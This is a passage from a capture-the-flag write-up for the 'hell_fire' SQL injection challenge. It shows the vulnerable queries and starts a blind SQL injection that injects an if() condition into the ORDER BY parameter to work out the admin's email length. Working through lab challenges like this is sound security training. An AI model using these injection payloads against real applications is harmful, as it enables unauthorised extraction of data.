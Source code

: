 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 24
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/4c5c1b89-930a-41e5-ae0f-a0b7f4fcceab)

We are provided with the SQL queries:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY {$_GET[order]}
```

```sql
SELECT email FROM prob_hell_fire WHERE id='admin' AND email='{$_GET[email]}'`
```

The challenge returns the output in the form of a table.

If we provide the following URI parameter:

```
?order=id
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY id
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d9f2eff9-6616-47e7-b691-7735f440149d)

As we can see there are two users: `admin` and `rubiya`.
In this challenge, the users are sorted in the same way regardless if we order by `id` or `score`.

We can solve this using two different methods:

- [Assigning different sort value](#blind-sql-injection---assigning-different-sort-value)
- [Sorting by ASC or DESC](#blind-sql-injection---sorting-by-adc-or-desc)

## Blind SQL Injection - (Assigning different sort value)

### Retrieving the email length

If we provide the following URI parameter:

```
?order=if(id='admin' AND length(email)=[length], 1, 2)
```

The resultant query becomes:

```sql
SELECT id,email,score FROM prob_hell_fire WHERE 1 ORDER BY if(id='admin' AND length(email)=[length], 1, 2)
```
